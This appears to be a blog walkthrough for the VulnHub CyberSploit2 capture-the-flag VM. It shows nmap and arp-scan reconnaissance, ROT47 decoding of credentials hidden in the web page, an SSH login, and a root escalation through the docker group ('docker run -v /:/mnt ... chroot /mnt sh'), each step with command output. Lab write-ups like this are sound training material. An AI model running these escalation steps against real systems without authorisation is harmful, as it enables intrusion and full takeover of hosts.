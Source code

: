 ```yaml
---
title: CyberSploit 2 VulnHub Walkthrough
date: 2024-04-15
categories: [Walkthrough]
tags: [Walkthrough, CTF, VulnHub]
---
```


## CyberSploit 2

This walkthrough guides you through the process of gaining root access on the CyberSploit2 boot2root virtual machine (VM) from Vulnhub. CyberSploit2 is the second part of the CyberSploit Series.

## Download the VM

- **Download the CyberSploit2 VM (size: 1.2 GB)** 
  - [Download Now](https://download.vulnhub.com/cybersploit/CyberSploit2.ova)

## Walkthrough

### 1. Discover Target Machine IP Address

Once the VM is running, determine its IP address using the 'arp-scan' utility:

```bash
┌──(root㉿neo)-[~]
└─# arp-scan -l
Interface: wlan0, type: EN10MB, MAC: 50:c2:e8:43:93:3b, IPv4: 192.168.1.8
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.4	08:00:27:ee:18:51	PCS Systemtechnik GmbH

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.003 seconds (127.81 hosts/sec). 1 responded
```

### 2. Scan for Open Ports

Use Nmap to scan for open ports on the target machine (replace `<target_IP>` with the VM's IP address obtained in the previous step):

```bash
┌──(root㉿neo)-[~]
└─# nmap -A 192.168.1.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-15 08:47 IST
Nmap scan report for 192.168.1.4
Host is up (0.00053s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CyberSploit2
|_http-server-header: Apache/2.4.37 (centos)
MAC Address: 08:00:27:EE:18:51 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.53 ms 192.168.1.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```

### 3. Enumerate HTTP Service

Explore the identified HTTP service (e.g., browse to `http://<target_IP>` in a web browser).

![Webpage Screenshot](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/655ba6b0-cc80-4aa0-b954-af52a31cda0f)

Here on Line 4 of the webpage, hashes `D92:=6?5C2` & `4J36CDA=@:E` are found.

![Source Code Screenshot](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/69ec26be-98dd-4b62-9472-25bd5ddea149)

The webpage source code at line 126 contains `<!-- ROT47 -->` hint for line 4 hash in ROT47 format.

#### Let's Crack The Hash Using ROT47

```bash
┌──(root㉿neo)-[~]
└─# echo "D92:=6?5C2" | tr '!-~' 'P-~!-O'

shailendra
```

Cracking the Second Hash:

```bash
┌──(root㉿neo)-[~]
└─# cat hash.txt | tr '!-~' 'P-~!-O'       

cybersploit1
```

The hashes are cracked:
- Username: `shailendra`
- Password: `cybersploit1`

#### 4. Login to SSH

Attempt to login to SSH using the discovered credentials:

```bash
┌──(root㉿neo)-[~]
└─# ssh shailendra@192.168.1.4
shailendra@192.168.1.4's password: 
Last login: Mon Apr 15 08:34:27 2024 from 192.168.1.8
[shailendra@localhost ~]$ 
```

#### 5. Obtain User Flag

Explore the user account for further clues and locate the user flag.

```bash
[shailendra@localhost ~]$ ls
hint.txt
[shailendra@localhost ~]$ cat hint.txt
docker
[shailendra@localhost ~]$ 
```

#### 6. Escalate Privileges via Docker

Search for Docker-related vulnerabilities using [GTFOBins](https://gtfobins.github.io/gtfobins/docker/).

![GTFOBins Screenshots](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/5cd3822f-3ae5-4ff1-bb5b-c614b26729e8)

Execute Docker commands to escalate privileges to root:

```bash
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
4abcf2066143

: Pull complete 
Digest: sha256:c5b1261d6d3e43071626931fc004f70149baeba2c8ec672bd4f27761f8e1ad6b
Status: Downloaded newer image for alpine:latest
sh-4.4# 
```

#### 7. Find the Root Flag

Navigate to the `/root` directory and locate the root flag:

```bash
sh-4.4# ls /root
anaconda-ks.cfg  flag.txt  get-docker.sh  logs
sh-4.4# cat /root/flag.txt
__    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/

 |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 
sh-4.4# 
```

## Conclusion

Congratulations! You have successfully rooted the CyberSploit2 VM from VulnHub.